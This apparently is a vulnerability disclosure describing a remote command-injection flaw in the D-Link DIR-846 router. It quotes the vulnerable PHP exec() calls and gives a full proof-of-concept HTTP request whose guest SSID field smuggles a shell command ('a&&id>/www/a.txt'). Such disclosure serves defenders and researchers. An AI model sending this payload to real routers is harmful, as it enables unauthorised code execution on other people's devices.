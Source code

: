 ### Info of vulnerability
There is a remote RCE vulnerability in D-Link router on page /Guestwireless.html due to invalid sanitization, so attackers could execute arbitrary code. 

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-846(100A35)

### Detail of vulnerability
The first vulnerable code is in file /www/HNAP1/control/SetGuestWLanSettings.php
```
        ... ...
74      $unicode_2 = $option["wl(0).(1)_ssid"];
75      exec("ssid_code set G2B 3 ssid_tmp1 '" . $unicode_2 . "'");
76      $unicode_5 = $option["wl(1).(1)_ssid"];
77      exec("ssid_code set G5B 1 ssid_tmp2 '" . $unicode_5 . "'");


```
Attacker could trigger this vulnerability in this way:

![poc](https://github.com/dahua966/Routers-vuls/blob/master/DIR-846/poc.png)

Malicious Request:
```
POST http://192.168.0.1 /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Proxy-Connection: keep-alive
Content-Length: 351
Accept: application/json
Origin: http://192.168.0.1
HNAP_AUTH: 866164AB3A175C358A2F5A80F1BF591E 1571916427322
SOAPACTION: "http://purenetworks.com/HNAP1/SetGuestWLanSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Content-Type: application/json
Referer: http://192.168.0.1/Guestwireless.html?t=1571916385005
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cookie: sid=eea33228-f58c-11e9-b614-df9bf19cb824; uid=sB1xQK5E; PrivateKey=57FB98B6CA565BFA093D27DB0A2E1A9F; PHPSESSID=a85e4817b1c1dddd548b245b41acc35b; timeout=5

{"SetGuestWLanSettings":{"wl(0).(1)_enable":"1","wl(0).(1)_local_access":"0","wl(0).(1)_local_access_timeout":"0","wl(0).(1)_ssid":"a&&id>/www/a.txt","wl(0).(1)_crypto":"none","wl(0).(1)_preshared_key":"SFFMdk9xSE4=","wl(1).(1)_enable":"0","wl(1).(1)_ssid":"D-Link_DIR-846_5G_Guest","wl(1).(1)_preshared_key":"SFFMdk9xSE4=","wl(1).(1)_crypto":"none"}}
```
You can see this:
![a.txt](https://github.com/dahua966/Routers-vuls/blob/master/DIR-846/a.jpg)